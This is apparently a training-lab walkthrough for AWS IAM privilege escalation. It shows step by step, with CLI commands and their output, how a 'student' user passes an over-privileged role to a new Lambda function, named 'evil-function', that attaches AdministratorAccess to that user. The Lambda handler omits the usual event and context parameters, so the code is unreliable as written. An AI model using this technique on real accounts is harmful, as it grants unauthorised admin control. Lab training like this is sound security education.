 # Pass Role: Lambda

Overly Permissive Permission can be abused by a user to perform privileged operations.

Objective: Leverage the policy attached to the student user and attain administrative privileges on the AWS account.

----

The `student` user has the inline policy to allow `iam:PassRole`, `lambda:CreateFunction`, `lambda:InvokeFunction`, `lambda:List*`, `lambda:Get*` and `lambda:Update*` actions. Hence, student can pass an existing role to a Lambda function.

If such a role exists which can be passed to Lambda and has enough permissions to help escalate, that would solve the lab. 

```text
cat account_authorization_details | jq '.RoleDetailList[] | select(.AssumeRolePolicyDocument.Statement[].Principal.Service=="lambda.amazonaws.com")'
```

1. Check lab11lambdaiam role details:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam get-role --role-name lab11lambdaiam
{
    "Role": {
        "Path": "/",
        "RoleName": "lab11lambdaiam",
        "RoleId": "AROA5Y7OCKXMHLTO5WESW",
        "Arn": "arn:aws:iam::947002693080:role/lab11lambdaiam",
        "CreateDate": "2023-05-12T14:10:51+00:00",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "lambda.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "MaxSessionDuration": 3600,
        "RoleLastUsed": {}
    }
}

┌──(kali㉿kali)-[~]
└─$ aws iam list-role-policies --role-name lab11lambdaiam
{
    "PolicyNames": [
        "terraform-20230512141051960700000003"
    ]
}

┌──(kali㉿kali)-[~]
└─$ aws iam get-role-policy --role-name lab11lambdaiam --policy-name terraform-20230512141051960700000003
{
    "RoleName": "lab11lambdaiam",
    "PolicyName": "terraform-20230512141051960700000003",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "iam:AttachUserPolicy"
                ],
                "Effect": "Allow",
                "Resource": "*"
            }
        ]
    }
}
```

2. Create a python script with the following content

***Python Script: evil.py***

```python
import boto3


def handler():
    iam = boto3.client("iam")
    response = iam.attach_user_policy(
        UserName="student", PolicyArn="arn:aws:iam::aws:policy/AdministratorAccess"
    )
    return response
```

3. Zip the python script using zip:

```text
┌──(kali㉿kali)-[~]
└─$ zip evil-function.zip evil.py
  adding: evil.py (deflated 28%)
```

4. Create a lambda function on AWS account:

```text
┌──(kali㉿kali)-[~]
└─$ aws lambda create-function \
--function-name evil-function \
--runtime python3.8 \
--zip-file fileb://evil-function.zip \
--handler evil.handler \
--role arn:aws:iam::947002693080:role/lab11lambdaiam
{
    "FunctionName": "evil-function",
    "FunctionArn": "arn:aws:lambda:us-east-1:947002693080:function:evil-function",
    "Runtime": "python3.8",
    "Role": "arn:aws:iam::947002693080:role/lab11lambdaiam",
    "Handler": "evil.handler",
    "CodeSize": 314,
    "Description": "",
    "Timeout": 3,
    "MemorySize": 128,
    "LastModified": "2023-05-12T14:25:56.749+0000",
    "CodeSha256": "XLvcjDh044rFfFrPBHuvkNwDB107ntWqcMm29WXrNCM=",
    "Version": "$LATEST",
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "f9de5359-7875-40a7-ab20-d11af815dcfb",
    "State": "Pending",
    "StateReason": "The function is being created.",
    "StateReasonCode": "Creating",
    "PackageType": "Zip",
    "Architectures": [
        "x86_64"
    ],
    "EphemeralStorage": {
        "Size": 512
    },
    "SnapStart": {
        "ApplyOn": "None",
        "OptimizationStatus": "Off"
    },
    "RuntimeVersionConfig": {
        "RuntimeVersionArn": "arn:aws:lambda:us-east-1::runtime:48ae60ef4cd46a5f33291797e798b3aaefe09e5000e8f58c605db8540c47dd8d"
    }
}
```

5. Invoke the newly created Lambda function:

```text
┌──(kali㉿kali)-[~]
└─$ aws lambda invoke --function-name evil-function invoke_out.txt
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```

6. Check attached policies on student user:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam list-attached-user-policies --user-name student
```

Successfully attached `AdministratorAccess` policy to the student user.

7. Try creating a new user on the AWS account:

```text
┌──(kali㉿kali)-[~]
└─$ aws iam create-user --user-name Bob
```
